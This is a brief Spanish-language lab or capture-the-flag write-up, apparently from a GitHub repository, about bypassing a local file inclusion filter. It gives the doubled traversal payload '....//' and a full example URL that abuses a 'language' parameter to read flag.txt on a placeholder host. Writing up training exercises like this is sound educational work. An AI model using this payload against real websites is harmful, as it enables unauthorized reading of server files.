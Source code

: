 # LFI: ByPass Filter 🔐

La página web que vulneraremos es:

![Web.PNG](./assets/02-Segundo/01-web.PNG)

* Podemos seleccionar un **lenguaje** para nuestra página web, aquí es donde la url usa un **párametro** `?languaje=languages/<Archivo>.php`

---

El payload que usaremos es: `....//....//....//`
* **URL**: `http://<IP>/index.php?language=languages/....//....//....//....//....//flag.txt`

<p align="center">
    <img src="./assets/02-Segundo/02-flag.PNG">
</p>